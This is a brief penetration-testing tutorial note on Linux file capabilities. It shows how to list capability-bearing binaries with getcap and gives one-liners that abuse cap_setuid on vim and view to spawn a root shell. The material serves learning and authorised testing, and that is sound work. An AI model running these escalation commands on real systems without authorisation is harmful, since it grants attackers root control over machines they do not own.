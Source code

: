 # Capabilities
***
System administrators have an additional method at their disposal to elevate the privilege level of a process or executable, known as "capabilities." To view the capabilities associated with binaries, follow these steps.
```sh
getcap -r / 2>/dev/null
```

## Example
Notice in the image below that both "vim" and "view" possess the "cap_setuid" capability, which could potentially enable an attacker to escalate their privileges.

![alt text](https://raw.githubusercontent.com/masjadaan/Knowledgebase/main/Penetration_Testing/Exploitation/Linux/Privilege_Escalation/cf6d299580864550a3996e2906b08e1f.png)


```sh
# vim
/home/karen/vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

# view
/home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
